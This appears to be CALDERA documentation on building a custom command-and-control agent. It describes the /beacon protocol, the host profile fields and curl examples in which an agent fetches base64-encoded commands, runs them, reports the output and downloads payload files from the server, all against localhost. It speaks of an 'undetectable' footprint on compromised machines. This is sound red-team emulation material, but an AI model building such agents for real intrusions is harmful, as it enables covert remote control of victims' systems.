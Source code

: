 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp and websocket. 

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

* **server**: The location (IP or FQDN) of the C2 server  
* **platform**: The operating system
* **host**: The hostname of the machine
* **group**: Either red or blue. This determines if your agent will be used as a red or blue agent.
* **username**: The username running the agent
* **architecture**: The architecture of the host
* **executors**: A list of executors allowed on the host
* **privilege**: The privilege level of the agent process, either User or Elevated
* **pid**: The process identifier of the agent
* **location**: The location of the agent on disk
* **exe_name**: The name of the agent binary file

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of seconds (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

If you get a malformed base64 error, that means the operating system you are using is adding an empty space to the 
profile variable. You can prove this by 
```
echo $profile
```

To resolve this error, simply change the line to (note the only difference is '-w 0'):
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64 -w 0)
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"result":{"id":$id, "output":$output, "status": $status, "pid":$pid}}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of seconds to allow a dead beacon before killing the agent. 
